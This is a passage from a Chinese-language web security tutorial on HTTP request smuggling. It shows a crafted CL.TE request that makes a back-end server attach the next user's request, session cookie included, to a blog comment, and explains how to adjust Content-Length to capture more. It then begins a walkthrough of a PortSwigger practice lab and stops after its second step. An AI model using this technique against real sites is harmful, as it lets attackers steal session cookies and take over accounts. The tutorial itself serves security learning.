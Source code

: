 此时我们可以发送一个内容长度过长的请求并且注释参数位于请求的末尾

```bash
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

走私请求的 Content-Length 头部表示主体将有 400 个字节长，但是我们只发送了 144 个字节，在这种情况下，后端服务器将在发出响应之前等待剩余的 256 个字节，如果响应不够快，则会发出超时，因此当另一个请求通过相同的连接发送到后端服务器时，前 256 个字节会被有效地附加到走私的请求中，从而得到如下响应

```bash
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```

由于受害者请求的开始包含在 comment 参数中，这将作为评论发布在博客上，随后便能够通过访问相关的帖子来阅读它，为了捕获更多的受害者请求，您只需要相应地增加被走私请求的 Content-Length 头的值，不过需要请注意的是这将涉及一定量的试错，如果您遇到超时，这可能意味着您指定的内容长度大于受害者请求的实际长度，在这种情况下只需降低该值，直到攻击再次奏效，下面我们通过一个靶场示例进行演示  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，为了解决这个问题，你需要将一个请求偷偷发送到后端服务器，使下一个用户的请求存储在应用程序中，然后检索下一个用户的请求并使用受害用户的 cookies 来访问他们的帐户  
绕过演示：  
Step 1：首先访问上面的靶场地址并点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-03c30c31c0ec8d5193756572af849006.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160300-83a13840-aa0e-1.png)  
Step 2：随意点击一个 blog 并进行评论操作  
[![](assets/1704418275-0cc07486d8cd7f5ef60607af302e1924.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160315-8c7f36b0-aa0e-1.png)  
确定评论有效

[![](assets/1704418275-0968d5b340c876a2fa7cbafba2478632.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160331-9610acd6-aa0e-1.png)
